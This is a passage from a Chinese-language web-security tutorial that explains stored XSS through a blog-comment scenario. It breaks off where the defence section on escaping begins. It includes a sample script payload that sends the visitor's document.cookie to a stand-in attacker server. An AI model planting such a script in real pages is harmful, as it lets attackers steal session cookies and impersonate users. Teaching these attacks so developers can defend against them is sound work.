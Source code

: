 ```yaml
---
title: Web 安全
date: 2025-08-05
tags:
  - JavaScript
---
```

# Web安全

> Web攻击（WebAttack）是针对用户上网行为或网站服务器等设备进行攻击的行为，比如获取用户隐私，植入恶意代码等。
> 常见的 Web 攻击方式包括 XSS/ CSRF / DDos / SQL 注入...

## XSS

全程 `Cross Site Scripting` 跨站脚本攻击。

攻击者将恶意脚本注入到网页中，当用户访问这个网页时，恶意脚本就会在用户的浏览器上执行。攻击者可以利用这个脚本窃取用户的`Cookie`、**会话令牌**，甚至**修改网页内容**，进行钓鱼攻击。

`XSS`涉及到三方，即攻击者、客户端与`Web`应用。

### 攻击场景和攻击过程

你的博客有一个评论系统，访客可以留言评论。一个恶意用户小张，想在你的博客上搞点破坏，于是他发表了一条评论，但评论内容不是普通文字，而是一段恶意脚本：

```html
<script>
  alert('你被XSS攻击了！');
  // 这里可以写更恶意的代码，比如窃取用户的Cookie
  // document.cookie 可以获取当前页面的所有cookie
  // 然后通过网络请求将cookie发送到攻击者的服务器
  new Image().src = 'http://小张的Server.top/steal?cookie=' + document.cookie;
</script>
```

**攻击过程：**

1. 用户B访问博客页面：
     
	当其他普通用户B访问这篇博客文章，加载到评论区时，浏览器会解析页面上的所有HTML内容。
    
2. 浏览器解析执行恶意脚本：
    
    由于小张的恶意代码被当作普通评论内容直接插入到了HTML中，浏览器会把它当作一个 `<script>` 标签来处理。
    
3. 触发攻击：
    
    浏览器会立即执行这个 `<script>` 标签里的JavaScript代码。此时，用户B的浏览器会弹出一个警告框，显示“你被XSS攻击了！”。
    
    与此同时，用户B的登录信息（存储在Cookie中）就被发送到攻击者的服务器，攻击者就可以利用这些信息假冒用户B的身份进行操作。

### 如何防御

#### 转义处理
